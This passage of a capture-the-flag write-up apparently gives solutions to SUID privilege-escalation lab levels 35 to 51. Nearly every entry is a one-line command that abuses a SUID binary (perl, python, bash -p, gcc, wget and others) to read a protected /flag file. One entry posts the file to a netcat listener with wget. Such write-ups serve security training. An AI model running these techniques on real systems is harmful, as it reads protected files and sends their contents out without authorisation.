 35. `sed -n 'p' /flag`

36. ```bash
    ed /flag
    .
    q
    ```

37. `chown -v hacker /flag && cat /flag`

38. `chmod 444 /flag && cat /flag`

39. `cp -v --no-preserve=all /flag ./flag && cat ./flag && rm -rf ./flag`

40. **HARD** `/challenge/babysuid_level40 && mv /usr/bin/cat /usr/bin/mv && /challenge/babysuid_level40 && mv /flag`

    - This level's solution is pretty tricky
    - The level said it had set the `suid` for `mv` after we executed it. So remember, it set the `suid` just for a program called `mv`. `mv` is just a name, no matter what it is in its core logic. That is saying we can replace it with others.
    - Here we just rename `cat` to `mv`, and covered the original `mv` program, then execute level program to get the `suid` privilege for present `mv` program (However, in core logic, it's `cat` program)
    - Finally, 'cat' it, but our command should be `mv /flag`

41. `perl -e 'open(FILE,"</flag");$line=<FILE>;foreach ($line){print $_;}'`

42. `python -c 'print(open("/flag").read())'`

43. `echo 'puts File.read("/flag")' > test.rb && /usr/bin/ruby test.rb && rm -rf test.rb`

44. ```bash
    bash -p
    cat /flag
    ```
    
    - **HARD**
    - Recommend source: [bash suid](https://gtfobins.github.io/gtfobins/bash/#suid)

45. `date -f /flag`

46. `dmesg -F /flag`

47. `wc --files0-from=/flag`

48. **HARD** `gcc -x assembler /flag`

49. `as @/flag`

50. **HARD** `wget -bv --post-file=/flag 127.0.0.1:3864 | nc -vl 127.0.0.1 3864`

    - DO NOT use the `-i` option, it turns all the `flag` letters to lowercase because of the `url` encoding rule.

51. TODO

#### Confusing Question Numbers

- 17
- **20** ( really confused )
